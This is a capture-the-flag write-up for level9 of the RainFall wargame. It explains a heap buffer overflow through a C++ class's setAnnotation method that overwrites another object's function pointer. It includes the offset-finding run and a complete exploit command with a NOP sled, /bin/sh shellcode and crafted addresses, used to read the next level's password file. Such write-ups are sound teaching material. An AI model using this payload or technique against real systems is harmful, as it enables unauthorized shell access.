 ### Brief
This is a c++ program that contains a `main` function and a `N` class
`main` allocate two `N` instance.
It also uses the `setAnnotation` method of the first instance.

### Exploit
`setAnnotation` function fill the annotation buffer of size 100 using `memcpy` and is called with the first argument.
We can overflow the `annotation` buffer of the first instance so that it overwrite the `function` called by the second instance.

We use the pattern generator the get the offset needed to overwrite the function called.

```bash
level9@RainFall:~$ ./level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
level9@RainFall:~$ dmesg
...
[15404.995709] level9[13068]: segfault at 80cd0bb0 ip 80cd0bb0 sp bffff6bc error 14
```
The offset is 108.

Since the function attribute is a pointer containing a function we need to put the address of a byte of the payload and the address of the shellcode in this byte.

### Get access
We craft a payload containing 83 `NOP` instruction, the shellcode of size 21, the address of the shellcode, the address of the previous byte.

```bash
./level9 $(python -c "print('\x90'*83 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + '\x0c\xa0\x04\x08' + '\x74\xa0\x04\x08')")
$ cat /home/user/bonus0/.pass
```
